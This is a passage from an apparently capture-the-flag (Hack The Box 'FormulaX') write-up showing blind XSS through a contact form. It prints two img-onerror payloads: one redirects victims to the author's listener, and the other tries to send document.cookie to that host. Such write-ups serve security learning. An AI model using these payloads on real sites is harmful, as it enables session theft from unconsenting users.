 Let's check on **Blind XSS** using the following payload:

`<img src=x onerror="document.location='http://10.10.14.36:1234/'"/>`

We will send the message containing XSS payload:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-12.png)

On our Python server, we can see connections being made:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-13.png)

We have tried cookie stealing but it wasn't successful:

`<img src=x onerror="document.location='http://10.10.14.36:1234/?cookie=' + document.cookie"/>`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-16.png)


Now that we have verified blind XSS vulnerability on Contact form, let's try to escalate this.
